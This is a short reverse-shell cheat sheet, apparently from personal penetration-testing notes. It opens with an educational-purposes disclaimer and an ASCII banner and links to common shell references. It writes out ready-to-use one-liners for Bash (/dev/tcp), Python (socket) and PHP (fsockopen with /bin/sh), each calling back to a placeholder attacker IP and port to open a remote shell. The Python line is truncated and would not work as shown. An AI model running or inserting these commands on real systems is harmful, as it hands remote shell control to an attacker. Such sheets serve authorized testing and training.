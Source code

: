 # DISCLAIMER
---
==The following content is provided for educational and informational purposes only.==  

==The author does not condone or encourage any illegal activities, including the use of malware or the exploitation of computer systems, networks, or websites without proper legal authorization.==

@ [kyc](https://github.com/iikyc)

```
										   _   _               _   _ 
										  (_) | |             | | | |
			  _ __   __      __  _ __      _  | |_      __ _  | | | |
			 | '_ \  \ \ /\ / / | '_ \    | | | __|    / _` | | | | |
			 | |_) |  \ V  V /  | | | |   | | | |_    | (_| | | | | |
			 | .__/    \_/\_/   |_| |_|   |_|  \__|    \__,_| |_| |_|
			 | |                                                     
			 |_|
```

`Made w/Obsidian`

<div style="page-break-after: always;"></div>

# Reverse shells
---

## Useful links

1. [Pentestmonkey reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
2. [Revshells](https://www.revshells.com/)
3. [HackTricks shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells)

## Bash

```
bash -i >& /dev/tcp/<IP_ADDRESS>/<PORT> 0>&1
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ADDRESS>",<PORT>));
```

## PHP

```
php -r '$sock=fsockopen("<IP_ADDRESS>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
